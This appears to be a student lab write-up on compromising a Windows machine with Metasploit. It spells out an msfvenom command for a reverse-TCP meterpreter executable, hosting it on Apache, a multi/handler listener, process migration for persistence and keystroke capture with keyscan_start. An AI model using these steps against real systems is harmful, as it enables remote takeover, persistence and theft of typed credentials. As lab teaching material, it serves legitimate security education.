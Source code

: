 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
# OUTPUT
![Screenshot 2025-03-28 135513](https://github.com/user-attachments/assets/2e026f51-cd2b-4b9f-8dea-ff7f4547fce1)

Create a malicious executable file test.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.85.128 LPORT=4433 -f exe -o test.exe
# OUTPUT
![Screenshot 2025-03-28 135743](https://github.com/user-attachments/assets/2d436f21-89b7-4bb1-b630-1cedadbda223)

Move the fun.exe into the apache /var/www/html folder
# OUTPUT
![Screenshot 2025-03-28 135850](https://github.com/user-attachments/assets/59be41ae-3e57-410c-aa17-6a8e8d431e63)

Start apache server sudo systemctl apache2 start
# OUTPUT
![Screenshot 2025-03-28 140117](https://github.com/user-attachments/assets/456d0ecc-334d-49cd-a18c-b1b6cd9c493e)

Check the status of apache2
# OUTPUT
![Screenshot 2025-03-28 140255](https://github.com/user-attachments/assets/add1a3dc-55c1-4879-b6ec-0320b1e36875)

Invoke msfconsole:
# OUTPUT
![Screenshot 2025-03-28 132126](https://github.com/user-attachments/assets/5a89d7e7-8fb8-4983-a001-0bcd4517ab4a)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler
# OUTPUT
![image](https://github.com/user-attachments/assets/b7439fff-0290-4bbd-8cf8-aeae1fadf767)

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.85.128/test.exe The file "test.exe" downloads.
# OUTPUT
![Screenshot 2025-03-28 142806](https://github.com/user-attachments/assets/dec77e68-1d3d-4503-b47e-e40641f2a957)

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
# OUTPUT
![image](https://github.com/user-attachments/assets/fd5589b8-2c79-45e0-8be4-34e127f73577)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the test.exe process running with pid 1156
# OUTPUT
![Screenshot 2025-03-28 143948](https://github.com/user-attachments/assets/5881e91d-5fad-42a6-b2bd-849f9065012b)
![image](https://github.com/user-attachments/assets/f77ca603-b0dd-436b-9eed-51793497e10e)

The Metasploit shell is running inside the "test.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# OUTPUT
![Screenshot 2025-03-28 144022](https://github.com/user-attachments/assets/fcbe5432-753f-451b-9ef2-1b3f6b2f84c8)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
# OUTPUT
![image](https://github.com/user-attachments/assets/29c656cd-4f7f-4b8e-84a3-707d6ba7e3d2)
![Screenshot 2025-04-07 113052](https://github.com/user-attachments/assets/512d8015-e6df-443d-866b-5bdebb5f3949)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
